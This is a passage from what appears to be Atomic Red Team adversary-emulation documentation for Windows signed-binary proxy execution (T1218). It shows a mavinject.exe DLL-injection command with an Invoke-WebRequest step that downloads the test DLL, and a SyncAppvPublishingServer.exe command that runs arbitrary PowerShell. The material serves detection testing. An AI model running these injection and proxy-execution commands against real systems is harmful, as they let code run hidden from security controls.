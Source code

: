 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mavinject.exe #{process_id} /INJECTRUNNING #{dll_payload}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code
Executes arbitrary PowerShell code using SyncAppvPublishingServer.exe. Requires Windows 10.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| powershell_code | PowerShell code to execute | string | Start-Process calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
SyncAppvPublishingServer.exe "n; #{powershell_code}"
```






<br/>
<br/>
